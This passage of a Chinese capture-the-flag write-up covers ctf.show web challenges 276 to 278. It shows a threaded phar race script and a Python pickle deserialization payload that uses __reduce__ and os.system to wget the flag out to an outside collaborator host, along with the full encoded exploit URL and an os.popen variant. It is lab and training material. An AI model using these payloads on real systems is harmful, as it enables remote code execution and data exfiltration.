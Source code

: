 ```python
        lock = True

while not lock:
    t1 = threading.Thread(target=send_phar)
    t2 = threading.Thread(target=unserialize_phar)
    t3 = threading.Thread(target=check_shell)
    t1.start()
    t2.start()
    t3.start()
```

一开始用 brup 跑死活跑不出来... 结果写成 python 脚本很快就出来了

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208161152844.png)

## web277

右键查看源码有个注释

```html
<!--/backdoor?data= m=base64.b64decode(data) m=pickle.loads(m) -->
```

python pickle 反序列化

参考文章 [https://xz.aliyun.com/t/7436](https://xz.aliyun.com/t/7436)

这里直接利用 `__reduce__` 执行命令

```python
import pickle
import base64
import os

class RCE(object):
    def __reduce__(self):
        return (os.system,('wget http://y98rjviy0w8i1gyj75swgrzlocu2ir.oastify.com/`cat flag`',))

obj = RCE()
payload = pickle.dumps(obj, protocol=0)
print(base64.b64encode(payload))
```

注意要在 linux 下运行

因为 windows 执行 os.system 的时候 opcode 开头是 nt, 而 linux 的开头是 posix

自己手动改也可以

```
http://536110ee-d022-4b6c-ab8b-4cc7fe52932e.challenge.ctf.show/backdoor?data=Y3Bvc2l4CnN5c3RlbQpwMAooVndnZXQgaHR0cDovL3k5OHJqdml5MHc4aTFneWo3NXN3Z3J6bG9jdTJpci5vYXN0aWZ5LmNvbS9gY2F0IGZsYWdgCnAxCnRwMgpScDMKLg==
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208161538219.png)

## web278

hint 提示过滤了 os.system

换成 os.popen, 其它同上
